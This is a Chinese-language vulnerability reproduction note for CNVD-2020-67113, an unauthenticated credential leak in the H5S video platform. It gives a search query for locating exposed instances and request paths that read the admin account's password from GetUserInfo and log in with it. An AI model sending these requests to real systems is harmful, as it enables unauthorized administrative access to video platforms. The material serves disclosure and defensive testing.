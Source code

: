 

# 零视科技 H5S视频平台 GetUserInfo 信息泄漏漏洞  CNVD-2020-67113

## 漏洞描述

零视技术(上海)有限公司是以领先的视频技术服务于客户，致力于物联网视频开发简单化，依托于HTML5 WebRTC 等新的技术，实现全平台视频播放简单化。
零视技术(上海)有限公司H5S CONSOLE存在未授权访问漏洞。攻击者可利用漏洞访问后台相应端口，执行未授权操作。

## 漏洞影响

<a-checkbox checked>零视科技 H5S视频平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="H5S视频平台|WEB"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1636073252475-8f3cb570-d930-46e3-b8a6-0a686773c84a.png)

API文档可以未授权访问

```php
/doc/api.html
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1636074612323-f1fee2de-e43f-4842-9e03-8066f9a1b7fc.png)

存在用户账号密码泄漏的接口

```php
/api/v1/GetUserInfo?user=admin&session=
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1636073746405-1adf993c-1e08-461a-9f7f-a3ab07f969ad.png)

其中登录接口中 Password为接口中存在的账号密码，可以直接发送请求获取Cookie

```php
/api/v1/Login?user=admin&password=02ed400b8d9289f311fc1d68a83fdaaa
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1636073812938-d82c758c-891a-40aa-9e17-037339b99765.png)

请求成功后访问主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1636073852540-6758c6d5-f945-4aec-8c53-53328c3cbc7d.png)
